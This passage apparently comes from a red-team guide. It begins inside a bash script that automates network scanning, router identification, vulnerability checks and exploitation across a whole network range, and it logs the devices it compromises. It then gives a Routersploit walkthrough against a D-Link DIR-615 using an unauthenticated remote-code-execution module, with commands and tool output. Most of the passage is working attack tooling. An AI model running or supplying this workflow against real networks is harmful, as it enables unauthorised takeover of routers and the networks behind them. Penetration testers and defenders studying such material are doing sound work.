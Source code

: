 ```bash
                echo "$IP:$EXPLOIT" >> "$OUTPUT_DIR/successful_exploits.txt"
            fi
        done < "$EXPLOIT_FILE"
    done
}

# Main execution flow
log_message "Starting automated router exploitation workflow"
scan_network
identify_routers
check_vulnerabilities
exploit_routers
log_message "Router exploitation workflow completed. Results in $OUTPUT_DIR"

# Generate summary report
{
    echo "Router Exploitation Summary Report"
    echo "=================================="
    echo ""
    echo "Scan Date: $(date)"
    echo "Network Range: $NETWORK"
    echo ""
    echo "Targets Discovered: $(wc -l < "$OUTPUT_DIR/router_candidates.txt")"
    echo "Routers Identified: $(wc -l < "$OUTPUT_DIR/identified_routers.txt")"
    echo ""
    
    if [ -f "$OUTPUT_DIR/successful_exploits.txt" ]; then
        echo "Successfully Exploited Devices:"
        echo "------------------------------"
        cat "$OUTPUT_DIR/successful_exploits.txt"
    else
        echo "No devices were successfully exploited."
    fi
} > "$OUTPUT_DIR/summary_report.txt"

echo "Complete! Summary report available at $OUTPUT_DIR/summary_report.txt"
```

### Example: Compromising Common Network Devices

During a red team assessment for a retail chain, we encountered a common scenario where network infrastructure was overlooked in security testing. We used Routersploit to demonstrate the impact of vulnerable network devices:

1. **Initial Discovery**:
   - Identified multiple D-Link and TP-Link routers at branch locations
   - Found several Cisco small business devices with web interfaces
   - Discovered IP cameras using default credentials

2. **Vulnerability Assessment**:
   ```bash
   # Identified a D-Link DIR-615 with a known RCE vulnerability
   rsf > use scanners/routers/dlink_scan
   rsf (D-Link Scanner) > set target 192.168.10.1
   rsf (D-Link Scanner) > run
   
   # Confirmed firmware version was vulnerable
   rsf > use exploits/routers/dlink/dir615_up_exec
   rsf (D-Link DIR-615 Unauthenticated RCE) > set target http://192.168.10.1
   rsf (D-Link DIR-615 Unauthenticated RCE) > check
   [+] Target is vulnerable
   ```


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire